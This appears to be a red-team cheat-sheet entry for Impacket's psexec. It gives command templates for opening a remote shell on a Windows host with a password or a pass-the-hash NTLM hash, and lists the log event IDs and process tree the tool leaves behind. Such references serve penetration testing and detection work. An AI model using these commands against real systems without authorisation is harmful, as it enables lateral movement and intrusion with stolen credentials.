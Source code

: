 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py  

### Open shell on remote host
```
impacket-psexec <domain>/<user>:<password>@<rhost>
```

### Using hash (hash must be: lmhash:nthash)
```
impacket-psexec -hashes :<ntlmhash> <domain>/<user>@<rhost>
```

### Opsec considerations
```
upload randomly named exe file to C:\Windows

Windows Security Log Event IDs
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple
-A service was installed in the system (4697) 

Windows System Logs
-Service Control Manager (7045)
```

### Running processes
```
gsHtpykm.exe
└── cmd.exe
    └── Conhost.exe
```

